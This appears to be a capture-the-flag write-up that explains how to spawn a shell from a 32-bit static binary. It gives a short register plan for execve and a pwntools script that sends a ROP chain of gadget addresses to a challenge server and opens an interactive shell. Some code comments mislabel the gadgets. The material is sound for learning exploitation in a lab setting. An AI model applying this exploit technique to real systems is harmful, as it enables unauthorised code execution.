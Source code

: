 1. As the buffer is read in using fgets, we can simulate the string by putting `/bin/sh\x00` into the buffer. This way, the "string" in the buffer is only 8 bytes long.
2. Set the registers appropriately as:
   1. `eax = 0xb` ---> execve
   2. `ebx = <address of the buffer>` ---> `/bin/sh\x00`
   3. `ecx = 0`
   4. `edx = 0`
3. Run a syscall using `int 0x80`
4. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

#p = process('./static')
p = remote('plsdonthaq.me', 6002)

#gdb.attach(p)

# put binsh at the front of the buffer
binsh = b'/bin/sh\x00'
padding = b'A' * 8

# set eax
eaxEdit = p32(0x08091f17)

# set ecx
ecxEdit = p32(0x0806b32c)
ecxEdit2 = p32(0x080c49cf)

# set edx
edxEdit1 = p32(0x080562ab)
edxEdit2 = p32(0x0809c216)
edxPadding = b'A'*12

# int 0x80
syscall = p32(0x08049533)

# mov ecx, eax
movEaxToEdi = p32(0x0806af9d)
movEdiToEdx = p32(0x0809c216)
movEdxToEbx = p32(0x0806d956)
movEdiToEdxPadding = b'A' * 12

p.sendline(binsh + padding + movEaxToEdi + movEdiToEdx
        + movEdiToEdxPadding + movEdxToEbx
        + ecxEdit + ecxEdit2 + edxEdit1
        + edxEdit2 + edxPadding + eaxEdit
        + b'AAAA' + syscall)

p.interactive()
```
